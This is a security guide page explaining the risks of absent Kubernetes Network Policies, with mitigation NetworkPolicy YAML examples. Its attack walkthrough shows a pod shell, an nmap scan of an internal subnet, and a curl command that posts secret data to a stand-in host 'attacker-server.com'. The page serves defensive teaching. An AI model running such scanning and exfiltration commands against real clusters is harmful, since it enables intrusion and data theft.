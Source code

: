 ```yaml
---
sidebar_position: 4
title: Lack of Network Policies
description: Understanding the risks of unregulated network traffic in Kubernetes and implementing best practices with Network Policies.
---
```


# Lack of Network Policies

The **absence of Network Policies** in a **Kubernetes cluster** can lead to **unrestricted communication** between **pods**, allowing **lateral movement** and **data exfiltration**. Without **network segmentation**, an **attacker** who gains access to a **single pod** can **move freely** within the cluster.

---

## 🚩 Exploitation Steps: Lateral Movement in Kubernetes

An attacker gains **initial access** to a **compromised pod**:

```bash
kubectl exec -it <compromised-pod> -- /bin/sh
```

### 1. Scan the Internal Network

The **attacker** discovers other **pods and services** in the **cluster** using **internal scanning tools**:

```bash
apt-get update && apt-get install -y nmap
nmap -p 80,443,8080 10.0.0.0/24
```

### 2. Access Sensitive Services

The **attacker** can **connect** to **open services** in other pods, such as **databases** or **APIs**:

```bash
curl http://10.0.0.15:8080/secret-data
```

### 3. Exfiltrate Data to an External Server

The **attacker** sends **sensitive data** to an **external server** using a **simple HTTP request**:

```bash
curl -X POST -d @/path/to/secret-data http://attacker-server.com/upload
```

### ✅ Result

The attacker can **move laterally** within the **cluster**, access **sensitive data**, and **exfiltrate information** without **network restrictions**.

---

## 🛡️ Mitigation Techniques and Fixes

### 1. Implement Default Deny Policies

- **Issue:** By default, all **pods** can **communicate** with **each other**, creating **security risks**.
- **Fix:** Apply a **default deny policy** to **block all traffic** by **default**.

#### ✅ Example of Default Deny Policy for Ingress and Egress

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: default
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
```

### 2. Create Allow-Only Policies

- **Issue:** Lack of **specific allow rules** means that **unwanted traffic** is **not blocked**.
- **Fix:** Use **Network Policies** to **allow traffic** only to **specific pods** or **services**.

#### ✅ Example Allowing Traffic Only to an Application Pod

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-app-traffic
  namespace: default
spec:
  podSelector:
    matchLabels:
      app: my-app
  policyTypes:
  - Ingress
  ingress:
  - from:
    - podSelector:
        matchLabels:
          role: frontend
    ports:
    - protocol: TCP
      port: 80
```

### 3. Restrict Egress Traffic

- **Issue:** Unrestricted **outgoing traffic** can **leak sensitive data** to **external servers**.
- **Fix:** Define **egress rules** to **control outbound connections**.

#### ✅ Example Egress Policy Allowing Only Specific Destinations

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: restrict-egress
  namespace: default
spec:
  podSelector:
    matchLabels:
      role: database
  policyTypes:
  - Egress
  egress:
  - to:
    - ipBlock:
        cidr: 10.0.0.0/24
    ports:
    - protocol: TCP
      port: 5432
```

---

## ✅ Key Takeaway

To **enhance security** and **limit lateral movement** within the **Kubernetes cluster**:

- Implement **default deny policies** for **ingress** and **egress traffic**.
- Create **specific allow rules** using **Network Policies**.
- Regularly **audit and validate network policies** to ensure **only necessary communication** is allowed.
